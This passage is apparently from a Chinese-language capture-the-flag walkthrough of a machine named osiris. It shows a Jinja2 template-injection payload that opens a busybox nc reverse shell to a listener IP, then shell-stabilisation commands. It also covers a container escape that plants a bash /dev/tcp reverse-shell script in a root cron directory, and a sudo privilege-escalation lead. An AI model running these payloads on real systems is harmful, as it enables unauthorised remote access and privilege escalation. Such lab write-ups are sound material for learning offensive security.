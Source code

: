 **执行反弹Shell Payload:**（去web执行，不然会有**shell 解析问题**）

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('busybox nc 192.168.205.128 8888 -e $(which $(echo $0)) ').read() }}
```

**稳定shell：**

```bash
python -c 'import pty; pty.spawn("ash")'
Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=ash
stty rows 24 columns 80
```

# **三、权限提升**

## **1. 容器逃逸 (Docker -> love)**

在获得的Docker Shell中进行信息收集，发现 `/var/log/access.yml` 文件中记录了一条可疑的 `cron` 计划任务。

```bash
/var/log # cat access.yml
...
2023-08-31 22:45:00 - Usuario: A.love - Accion: Tarea cron ejecutada: */5 * * * * root bash /home/love/script/*
...
```

该任务每5分钟以 `root` 权限执行 `/home/love/script/` 目录下的所有脚本。通过 `linpeas.sh` 等工具或手动 `mount` 检查，发现宿主机的 `/home/love/script` 被挂载到了容器的 `/script` 目录，并且该目录可写。这是一个典型的容器逃逸路径。

1. 在容器的 `/script` 目录下创建一个反弹Shell脚本。

   ```bash
   /script # echo 'bash -c "/bin/bash -i >& /dev/tcp/192.168.205.128/8888 0>&1"' > 
   a.sh
   /script # chmod +x a.sh 
   ```

2. 在本地Kali开启 `8888` 端口监听。等待cron任务执行后，成功接收到宿主机 `love` 用户的Shell。

## **2. love -> mitnick**

在 `love` 用户的Shell中，执行 `sudo -l` 发现其可以免密以 `mitnick` 用户身份运行一个名为 `sas` 的程序。

```bash
love@osiris:~$ sudo -l
...
User love may run the following commands on osiris:
    (mitnick) NOPASSWD: /home/mitnick/sas
```
